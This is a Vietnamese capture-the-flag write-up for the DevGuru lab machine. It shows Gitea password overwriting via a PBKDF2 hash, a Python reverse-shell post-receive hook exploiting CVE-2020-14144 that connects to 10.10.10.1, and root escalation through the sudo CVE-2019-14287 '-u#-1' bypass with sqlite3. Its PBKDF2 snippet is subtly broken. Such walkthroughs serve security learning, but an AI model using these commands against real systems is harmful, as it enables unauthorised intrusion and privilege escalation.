Giờ thì dễ rồi, dán cái đống này vào một cái chương trình gen PBKDF2 nào đó, rồi chèn hash vào ô passwd là xong thôi.
Thể hiện mình biết python, nên mình sẽ tự code, với password là 00000 và salt là botcanhHaiChau
import os, binascii
from backports.pbkdf2 import pbkdf2_hmac
salt = binascii.unhexlify('botcanhHaiChau') #Ahihi
passwd = "00000".encode("utf8")
key = pbkdf2_hmac("sha256", passwd, salt, 10000, 50)
print(binascii.hexlify(key))
#7b54b6d699cbf4d2ec3561baf57ebcbfe086e75dbecea8910dade1991eff67c3d139e78ffc26bec1e95b46fbd16a2eeabbf6Lời nhắn dành cho ai dùng đoạn code trên để làm bài này nhưng vẫn bị sai: Try hard don’t copy!
Với cách 2, nghe chừng dễ dàng và đỡ tốn thời gian hơn cách 1 rất nhiều. Thực ra lần đầu làm bài này mình đã mất cả buổi trưa để đuổi theo cách 1, do không để ý những cấu hình khác trong app.ini.bak. Để thực hiện thì giống hệt với cách đổi mật khẩu của frank trên trang /backend.

Với phiên bản Gitea 1.12.5, có một lỗi CVE-2020-14144](http://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-14144) dẫn đến RCE. Nếu có thể khai thác được lỗi này thành công, thì mình hoàn toàn có được shell của thằng user frank trong hệ thống dó Gitea được chạy dưới quyền của frank.
Cơ bản, với lỗi CVE này, nó đánh vào quá trình xử lý của hook trên phía server, ơ thế… hook là gì?
…
Giờ thì tạo một cái Repo mới, sau đó sẽ chèn đoạn mã lấy shell vào 1 trong 3 hook server.
Nội dung post-receive lủn củn như thế này:
#!/bin/sh
python3 -c
'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.10.1",22224));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty;
pty.spawn("/bin/sh")'Giờ thì chỉ cần tạo một thay đổi nào đó trong cái thư mục Duma vừa mới clone về kia, rồi commit, push lên cho Gitea và có được shell =))
$ nc -nlvp 22224
listening on [any] 22224 ...
connect to [10.10.10.1] from (UNKNOWN) [10.10.10.13] 42062
$ id
uid=1000(frank) gid=1000(frank) groups=1000(frank)Get Root Shell
Okay, đến màn khó rồi đây.
$ sudo -l
Matching Defaults entries for frank on devguru:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User frank may run the following commands on devguru:
(ALL, !root) NOPASSWD: /usr/bin/sqlite3
$ uname -a
Linux devguru.local 4.15.0-124-generic #127-Ubuntu SMP Fri Nov 6 10:54:43 UTC 2020 x86_64 x86_64 x86_64 GNU/LinuxVới /usr/bin/sqlite3, có thể lên được Root theo cách này https://gtfobins.github.io/gtfobins/sqlite3/
NHƯNG! (ALL, !root), cái này ngăn cản root thực hiện, mọi người dùng khác đều được, trừ root :(
Sau khi được hint là kiểm tra phiên bản của sudo, wtf, mình chưa bao giờ kiểm tra phiên bản của sudo cả! Trước giờ vẫn nghĩ nó là một phần của hệ thống và được phát triển song song, nên không có phiên bản =))
$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2Sudo v1.8.21 có một lỗi nghiêm trọng ra phết, được gọi là User -1. CVE-2019-14287.
Thử trước đã rồi hiểu nó sau :v
$ sudo -u#-1 sqlite3 /dev/null '.shell /bin/sh'
# id
uid=0(root) gid=1000(frank) groups=1000(frank)
# cd /root
# ls
msg.txt root.txt
# cat root.txt
96440606fb88aa7497cde5a8e68daf8f
# cat msg.txt
Congrats on rooting DevGuru!
Contact me via Twitter @zayotic to give feedback!Sau dấu # là UID của user, đó là cách thứ 2 để chạy lệnh với quyền của một user khác.
Vậy tại sao lại là -1, thử -2, -3 xem sao =))
$ sudo -u#-3 sqlite3 /dev/null '.shell /bin/sh'
sudo: unknown uid 4294967294: who are you?Hãy để ý con số 4294967294, nó sát với con số 4294967295, hay 2^32-1, là cận trên của kiểu Integer trong C/C++/Java, bla bla… Điều đó nghĩa là khi nhập số -1 vào đây, hệ điều hành sẽ chuyển toàn bộ 32 bit trong biến UID thành 0, và 1 bit thứ 33 cao nhất là 1, nhưng bit 33 cao nhất này bị tràn ra đâu đó, để lại 32 bit 0, lúc này thì giá trị của biến UID bằng 0. Với UID bằng 0, hệ thống Linux hiểu rằng đó là root.
# id
uid=0(root)Đó, vậy là có root.